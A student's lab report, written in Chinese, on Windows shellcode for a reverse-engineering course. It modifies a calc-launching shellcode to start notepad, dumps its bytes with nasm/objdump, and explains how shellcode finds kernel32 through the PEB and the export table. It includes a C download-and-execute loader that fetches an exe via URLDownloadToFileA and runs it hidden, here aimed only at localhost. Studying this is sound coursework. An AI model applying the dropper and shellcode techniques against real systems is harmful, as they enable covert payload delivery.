






# Shellcode

## 实验要求

1. 把上面这个链接中shellcode能够成功运行，
2. 能从汇编源码编译通过并成功dump，
3. 自行查阅资料，搜索Windows PEB结构体，PE文件导入表导出表相关数据结构的文档，解读shellcode原理，
4. 修改shellcode功能为运行记事本程序notepad. exe，
5. (选做)修改shellcode功能为下载执行器，即下下载一个可执行文件，然后再运行（提示，使用原生API UrlDownloadToFileA）. 
   
## 实验流程

1. C语言是可以调用汇编程序的，所以直接在VS里运行代码.



2. 修改代码功能为运行记事本程序notepad.exe并dump



```asm
; push 0x6578652e; exe. : 6578652e
; push 0x636c6163; clac: 636c6163
push 0x00657865;  exe : 00657865
push 0x2e646170; .dap : 2e646170
push 0x65746f6e; eton : 65746f6e
```

使用

```bash
nasm -f win32 win32-WinExec_Calc-Exit.asm -o win32-WinExec_Calc-Exit.o
for i in $(objdump -D win32-WinExec_Calc-Exit.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
```

可以编译成十六进制字节形式。



3. 修改shellcode功能为下载执行器，即下载一个可执行文件，然后再运行
```c
// 代码功能：修改shellcode功能为下载执行器，即下载一个可执行文件，然后再运行
#include <urlmon.h>
#include <Windows.h>

typedef HRESULT (WINAPI * MY_PROC)(LPUNKNOWN, LPCSTR, LPCSTR, DWORD, LPBINDSTATUSCALLBACK);

int main() {
	// 调用函数不会导入表显示有URLDownloadToFile函数。
	// urlmon.dll默认不加载，所以需要手动先行加载
    // 要获得函数地址，dll必须在内存中，kernel32是默认加载的，提供LoadLibrary函数
	HMODULE hurlmod = LoadLibrary("urlmon.dll");
	MY_PROC function_ptr = (MY_PROC)GetProcAddress(hurlmod, "URLDownloadToFileA");
    // 遍历导出表也可以实现GetProcAddress相同的效果
	// URLDownloadToFile <=> function_ptr
	function_ptr(
		NULL,
		"http://localhost:8000/Project1.exe",
		"a.exe",
		0,
		NULL
	);
	WinExec("a.exe", SW_HIDE);
}
```

在本地开启一个http server



Project1.exe功能为打开记事本, 运行时自动打开了记事本, 并且可以发现cpp文件旁边多了一个a.exe文件.






## 关于Shellcode

shellcode没有CreateProcess，所以只能自己去找。

### 通用shellcode

> 所有 win_32 程序都会加载 ntdll.dll 和 kernel32.dll 这两个最基础的动态链接库。攻击代码没有经过链接的过程，不知道API的地址。如果想要
> 在 win_32 平台下定位 kernel32.dll 中的 API 地址，可以采用如下方法。
>
> 1. 首先通过段选择字 FS 在内存中找到当前的线程环境块 TEB。
> 2. 线程环境块偏移位置为 0x30 的地方存放着指向进程环境块 PEB 的指针。
> 3. 进程环境块中偏移位置为 0x0C 的地方存放着指向 PEB_LDR_DATA 结构体的指针，
>    其中，存放着已经被进程装载的动态链接库的信息。
> 4. PEB_LDR_DATA 结构体偏移位置为 0x1C 的地方存放着指向模块初始化链表的头指
>    针 InInitializationOrderModuleList。
> 5. 模块初始化链表 InInitializationOrderModuleList 中按顺序存放着 PE 装入运行时初始化
>    模块的信息，第一个链表结点是 ntdll.dll，第二个链表结点就是 kernel32.dll。
> 6. 找到属于 kernel32.dll 的结点后，在其基础上再偏移 0x08 就是 kernel32.dll 在内存中的
>    加载基地址。
> 7. 从 kernel32.dll 的加载基址算起，偏移 0x3C 的地方就是其 PE 头。
> 8. PE 头偏移 0x78 的地方存放着指向函数导出表的指针。
> 9. 导出表0x1C处的指针指向存储导出函数偏移地址（RVA）的列表->导出表偏移0x20处的指针指向存储导出函数函数名的列表->函数的RVA地址和名字按照顺序存放在上述两个列表中，我们可以在名称列表中定位到所需的函数是第几个，然后在地址列表中找到对应的RVA—>获得RVA后，再加上前面已经得到的动态链接库的加载基址，就获得了所需API此刻在内存中的虚拟地址。
>
> ### fs是什么?TEB是什么?
>
> - fs是一个寄存器,只不过不可见
> - 在NT内核系统中fs寄存器指向TEB结构
> - TEB+0x30处指向PEB结构

### PE的结构

[PE Format](https://docs.microsoft.com/en-us/windows/win32/debug/pe-format)

可执行文件，起始为MZ头，二进制 3CH处记录了文件起始位置的偏移量，PE标志为`50 45 00 00`，创建时间为timestamp格式。


### DLL

WinExec事实上执行[CreateProcess](https://docs.microsoft.com/en-us/windows/win32/procthread/creating-processes)

```cpp
main(int argc, TCHAR* argv[]);
argument_counter argument_vector
表示命令行以空格分隔参数，如果参数内需要空格可以加引号。
```

```c
if (!CreateProcess(NULL,   // No module name (use command line)
        argv[1],        // Command line
        NULL,           // Process handle not inheritable
        NULL,           // Thread handle not inheritable
        FALSE,          // Set handle inheritance to FALSE
        0,              // No creation flags
        NULL,           // Use parent's environment block
        NULL,           // Use parent's starting directory 
        &si,            // Pointer to STARTUPINFO structure
        &pi)           // Pointer to PROCESS_INFORMATION structure
        )
```

CreateProcess完成了动态链接，并跳到entrypoint运行下一步。即完成了父进程向子进程的调用。

## 实验问题与解决

- notepad.exe压栈问题

    最开始组合成了 `空exe` `.dap` `teon`,但这样栈指针需要移位, 问过老师后改成了`exe.` `dape` `ton空`, 成功运行

- 关于解决编码问题
下载执行器的代码一直报错, 发现是字符集的问题.

    项目-属性-高级-字符集 将Unicode改成未设置

其他见[笔记](https://github.com/LyuLumos/Reverse-Engineering-and-Software-Security/blob/master/%E9%80%86%E5%90%91%E5%B7%A5%E7%A8%8B%E4%B8%8E%E8%BD%AF%E4%BB%B6%E5%AE%89%E5%85%A8%E7%AC%94%E8%AE%B0.md)
